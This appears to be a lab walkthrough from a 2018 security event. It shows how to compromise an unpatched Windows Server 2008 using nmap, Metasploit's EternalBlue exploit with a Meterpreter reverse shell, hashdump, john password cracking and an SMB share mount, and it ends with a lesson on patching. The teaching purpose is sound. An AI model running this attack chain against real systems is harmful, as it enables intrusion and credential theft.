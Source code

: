 # RSSC2018 Endpoint Attack Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started.
1. Installation of Windows Server 2008 as an attack target, either running on a VM or a separate machine, with the following requirements:
   * Fresh, unpatched install
   * Firewall disabled
   * SMBv1 enabled (enabled by default, so if you have not specifically disabled it then you don't need to change anything here)
   * The Administrator password should be set to something simple to make the demonstration of password cracking easier. In our example, we'll use `Drowssap1` as our password.
2. Kali Linux installed to attack the target host from
3. Both machines should be connected to the same network

## Attack Execution

Here we will walk through the process of attacking and gaining access to the unpatched Windows Server 2008 instance.

1. On your Kali installation, open 2 terminals. For now, we will work in Terminal 1.
2. We need to discover the host and determine what services are available on the machine so we can begin looking for weaknesses. nmap is a tool that helps us do this.

```bash
nmap -T4 -sSVC <IP address of your Windows server> -p 80,443,445
```

   These parameters do the following:  

   * -T4 sets the timing template to aggressive to make the scan happen more quickly
   * -sSVC specifies that nmap should use the SYN scan technique, should probe open ports to determine information about the service that opened the port, and sets the scripts nmap should use to default
   * -p specifies which ports to scan once host discovery is complete. In this scenario, we'll be scanning the commonly used web ports 80 and 443, as well as the SMB share port 445.

   More information on the commands used, or other information about nmap can be found by running `man nmap`.  

   This should return information about the SMB service on 445, so now we've determined that SMB may be a good attack point.  

3. There are other discovery methods we can do to determine what vulnerabilities may be available on this host via SMB, but for the purposes of this exercise, we'll skip ahead to where we've determined that this host is susceptible to the ETERNALBLUE vulnerability, which we will now attack. On Terminal 1, start the metasploit console, which we will use to execute the attack.

```bash
msfconsole
```

4. Once you are at the msfconsole command prompt, select the metasploit module for eternal blue (msfconsole supports tab-complete).

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

5. Review your options for this module.

```bash
show options
```

6. Notice that the RHOST option is requied. This is the IP address of the host to be attacked.

```bash
set RHOST <IP address of your Windows server>
```

7. Now we need to set the payload. You can use many kinds of payloads to gain shell access, but in this scenario we'll deploy a meterpreter reverse tcp shell that connects back to our local box. Meterpreter shell allows us to execute a variety of useful functions once we gain access to the target box.

```bash
set payload payload/windows/meterpreter/reverse_tcp
```

8. Now show options again, and notice that the LHOST option is now available and required. This needs to be set to the IP of your local box so the shell knows where to connect back to once it's running on the target host.

```bash
set LHOST <IP of your Kali box>
```

9. Run the exploit. If it goes well, you should see a WIN! message and have a new meterpreter shell prompt.

```bash
run
```

10. You should now have a meterpreter shell prompt on the target host. You can run `help` at any time to see the commands availalbe to you here. First we'll want to launch a cmd prompt and run some commands to verify you have system access to the correct host.

```bash
shell
whoami
hostname
exit
```

11. Back at the meterpreter shell, now we want to see if we can get a dump of the passwords and then try to crack them. To make this easier, we want to start a logging session so any dumped hashes are already saved for us in a text file. To do this, we need to run the `background` command to bring us back to the msfconsole prompt and start spooling. Run the following commands.

```bash
background
spool /tmp/console.log
```

12. This will start logging all of your commands and output to /tmp/console.log. Now we need to connect back to our meterpreter shell session. To view the list of sessions available, use the `sessions -l` command, followed by `sessions -i <id>` where `<id>` is the ID of the session listed from the output of the `sessions -l` command.

```bash
sessions -l
sessions -i <id>
```

13. Back on the meterpreter shell, run `hashdump`. You should see a list of usernames and hashed passwords, which are automatically logged as output to /tmp/console.log. 

14. Background the session again, and turn off spooling so we don't keep outputting unnecessary logs to /tmp/console.log

```bash
background
spool off
```

## Password Cracking

1. Let's switch over to Terminal 2 at this time. Now that we have a copy of the hashed passwords, we want to see if we can crack them. You can view the contents of the log output by running `cat /tmp/console.log`. Notice that there's more information than just the hashed passwords in here from the other commands we've run from our session. To clean this up and get a file that just contains the password hashes, we can `grep` that information out to a new file.

```bash
grep ":::" /tmp/console.log | tee hashedpasswords.txt
```

   * The grep command searches for the string ":::" in the console.log file (which the lines with hashed passwords will have), prints it out to the console and pipes it to the `tee` command, which saves console output to the file `hashedpasswords.txt`.
   
2. Now we can run our password cracking tool to crack the password. There are many cracking tools available, but for this exercise we'll use `john`.

```bash
john --format=nt hashedpasswords.txt
```

   * For more information on the options that can be used with `john` for more complex cracking processes, you can run `john -h` to display the help text.

3. This should now show you that the Administrator password was successfully cracked to be `Drowssap1`. We can confirm that this is correct through a variety of methods, but for our purposes, we'll mount the protected c$ share on the attack box and write a file to it.

```bash
mkdir -p /mnt/atk_share
smbclient -L hostname -I <IP of Windows host> -U Administrator
mount -t cifs //<ip of Windows host>/C$ /mnt/atk_share -o username=Administrator,password=Drowssap1
```

   * `mkdir` command creates the full directory specified
   * `smbclient` command lists the shares available on the target host. This will prompt you for the Administrator password, which you should supply the cracked password
   * `mount` command mounts the Windows share to /mnt/atk_share with the username and password specified, and specifies the type as a CIFS share

4. Now we can change directory to the remote share and see if we can write a file on the C:\ directory of the remote host.

```bash
cd /mnt/atk_share
echo "you done been" > pwnd.txt
ls
```

   * This changes directory to the atk_share directory and writes a file to the share called `pwnd.txt` with the contents `you done been`.
   * To confirm, you can run `cat pwnd.txt` and you should see your contents.
   * You can also log into your Windows host directly and confirm there is a file at C:\pwnd.txt with those contents.
   
## Cleanup

1. Now that we're finished with our exercise, we need to close the existing session on the target. Back on Terminal 1, instruct metasploit to terminate the existing session.

```bash
sessions -K
```

2. You can now exit metasploit by running `exit`.

# Conclusion

We hope this has been useful in seeing the process of a basic attack on an unpatched Windows host, which should demonstrate how important patching and hardening procedures are to protecting against such easy attack vectors that can be very damaging to your environment.
